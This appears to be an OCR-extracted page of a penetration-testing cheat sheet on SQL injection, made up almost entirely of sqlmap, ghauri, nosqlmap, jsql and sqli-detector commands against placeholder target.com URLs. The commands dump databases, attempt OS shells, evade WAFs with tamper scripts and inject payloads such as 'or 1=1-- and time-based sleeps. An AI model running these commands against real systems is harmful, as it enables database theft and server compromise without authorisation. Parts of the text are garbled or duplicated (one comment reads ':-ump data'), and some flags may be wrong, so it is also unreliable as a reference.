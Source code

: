 ### 3.3 SQL Injection Testing
    :- Automated SQLi, enumerate databases
    sqlmap -u "https://target.com/product?id=1" --batch --level 3 --risk 2 --dbs 
    
    :- Test POST request, 5 threads
    sqlmap -u "https://target.com/search.php" --data="query=keyword" --dbs --threads 5 
    
    :- Specify parameter, use tamper script, get current user
    sqlmap -u "https://target.com/user?id=1" -p id --tamper=space2comment --random-agent --current-user 
    
    :- Load request from file, attempt OS shell
    sqlmap -l request.txt --level 5 --risk 3 --os-shell
    
    :- Specify DBMS, get banner
    sqlmap -u "https://target.com/vuln.php?id=1&cat=2" --dbms=MySQL --banner
    
    :- Test forms found by crawling
    sqlmap -u "https://target.com/login" --forms --crawl=2 --batch

    :- Load raw HTTP request, specify parameter, use specific techniques (boolean, error, union, stacked, time-based, inline), 

    :-ump data
    sqlmap -r post_request.txt -p username --technique=BEUSQ --dump
    
    :- Manual injection point with eval for dynamic payloads
    sqlmap -u "https://api.target.com/items?filter=FUZZ" --eval="import time; time.sleep(0.1)" --prefix="'" --suffix="-- -" 

    
    :- Modern SQLi scanner, list DBs
    ghauri -u "https://target.com/search.php?q=test" --dbs
    
    :- Scan from request file, specify parameter
    ghauri -r request_file.txt -p vulnerable_param --level 3 --risk 2
    ----
        sqlmap -u "https://target.com?id=1" --batch
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs
    sqlmap -r request.txt --dbs
    nosqli scan -u https://target.com/api?id=1
    nosqlmap -u https://target.com/api?query=admin
    ghauri --url https://target.com/search.php?q=1 --dbs
    jsql -u https://target.com/vuln.jsp?id=1
    sqli-detector -u https://target.com/login
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 10
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="apostrophemask,apostrophenullencode,charencode"
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell
    nosqlmap -u https://target.com/users --get --value "'or 1=1--"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 5
    ghauri --url https://target.com/item?name=test' --identify
    jsql -u https://target.com/vuln.jsp?id=1 --test="AND SLEEP(5)"
    jsql -u https://target.com/data.jsp?search=admin%25' --blind
    sqli-detector -u https://target.com/login --data "username=test&password='or 1=1--'"
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 15 --tamper="apostrophemask,apostrophenullencode,charencode,randomcase,unionallcols,unmagicquotes"
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="base64encode,htmlencode,urlencode" --time-sec 10
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell --tamper="modunion"
    nosqlmap -u https://target.com/users --get --value "'});db.injection.find({$where:'sleep(5000)'});//"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 7 --tamper="space2comment"
    ghauri --url https://target.com/item?name=test' --identify --skip-waf
    jsql -u https://target.com/vuln.jsp?id=1 --test="PROCEDURE ANALYSE(sleep(5))"